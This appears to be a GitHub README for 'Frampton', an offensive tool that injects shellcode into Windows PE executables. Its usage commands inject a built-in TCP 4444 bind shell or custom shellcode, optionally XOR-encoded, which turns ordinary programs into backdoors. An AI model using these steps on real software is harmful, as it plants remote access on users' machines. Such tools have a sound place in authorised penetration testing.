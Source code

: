 # Frampton
PE Binary Shellcode Injector - Automated code cave discovery, shellcode injection, ASLR bypass

## Install
`pip3 install -r requirements.txt`

## Usage
#### Information Only (no injection)
```./frampton.py -f FILENAME.exe -i```

#### Built-in basic bind shell (TCP 4444) 
```./frampton.py -f FILENAME.exe```

#### Built-in basic bind shell (TCP 4444) with XOR encoder
```./frampton.py -f FILENAME.exe -e```

#### Custom Shellcode Injector 
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE```

#### Custom Shellcode Injector with XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e```
